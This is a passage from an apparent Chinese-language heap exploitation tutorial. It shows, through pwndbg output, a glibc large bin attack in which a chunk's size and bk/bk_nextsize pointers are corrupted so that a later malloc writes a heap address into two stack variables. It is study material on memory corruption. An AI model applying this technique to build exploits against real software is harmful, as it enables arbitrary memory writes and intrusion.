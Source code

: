 先修改了size为0x3f1,然后fd为0,fd-&gt;nextsize为0,bk为&amp;stack_var-2而bk_size为&amp;stack_var2-4,也就是指向了同一个地址:)

```
pwndbg&gt; bins
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
all: 0x6037a0 —▸ 0x6030a0 —▸ 0x7ffff7dd1b78 (main_arena+88) ◂— 0x6037a0
smallbins
empty
largebins
0x400 [corrupted]
FD: 0x603360 ◂— 0x0
BK: 0x603360 —▸ 0x7fffffffe5b0 ◂— 0x0
```

然后我们再malloc一下

```
pwndbg&gt; bins
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
all: 0x603140 —▸ 0x7ffff7dd1b78 (main_arena+88) ◂— 0x603140 /* '@1`' */
smallbins
empty
largebins
0x400 [corrupted]
FD: 0x603360 ◂— 0x0
BK: 0x603360 —▸ 0x6037a0 —▸ 0x7fffffffe5b0 ◂— 0x6037a0
```

此时目标已经被修改了

```
pwndbg&gt; x/10gx &amp;stack_var1
0x7fffffffe5c0: 0x00000000006037a0      0x00000000006037a0
0x7fffffffe5d0: 0x0000000000603010      0x0000000000603370
0x7fffffffe5e0: 0x00000000006037b0      0xd047b69e2685f100
0x7fffffffe5f0: 0x0000000000400a30      0x00007ffff7a2d830
0x7fffffffe600: 0x0000000000000000      0x00007fffffffe6d8
pwndbg&gt; x/10gx &amp;stack_var2
0x7fffffffe5c8: 0x00000000006037a0      0x0000000000603010
0x7fffffffe5d8: 0x0000000000603370      0x00000000006037b0
0x7fffffffe5e8: 0xd047b69e2685f100      0x0000000000400a30
0x7fffffffe5f8: 0x00007ffff7a2d830      0x0000000000000000
0x7fffffffe608: 0x00007fffffffe6d8      0x0000000100000000
pwndbg&gt; p/x stack_var1
$20 = 0x6037a0
pwndbg&gt; p/x stack_var2
$21 = 0x6037a0
```
